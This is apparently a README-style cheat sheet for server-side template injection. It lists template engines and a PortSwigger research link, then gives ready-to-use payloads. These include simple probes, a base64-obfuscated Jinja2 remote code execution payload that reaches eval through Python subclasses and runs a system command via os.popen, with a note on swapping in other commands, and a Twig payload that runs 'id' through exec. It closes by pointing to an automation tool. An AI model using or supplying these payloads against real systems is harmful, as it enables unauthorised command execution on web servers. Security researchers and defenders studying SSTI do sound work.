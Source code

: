 #Requirements

1- apt-get install python
2- apt-get install python-pip
3- pip install flask
4- pip install jinja2

#Original Blog:
https://portswigger.net/research/server-side-template-injection

#Web Template Engines

1- FreeMarker
	Java-based template engine
2- Velocity
	Java-based template engine
3- Smarty
	PHP Template engine
4- Twig
	PHP Template engine
5- Jade 
	Node.js Template engine
6- Jinja2
	Python/Flask Template engine

#Basic Payload

{{7*7}}
{{7*'7'}}

#RCE PAYLOAD - JINJA2
{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}

Note: Decode decode base64 string to to place system commands

#RCE PAYLOAD - TWIG
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

#Automation tool for SSTI exploitation:
TPLMap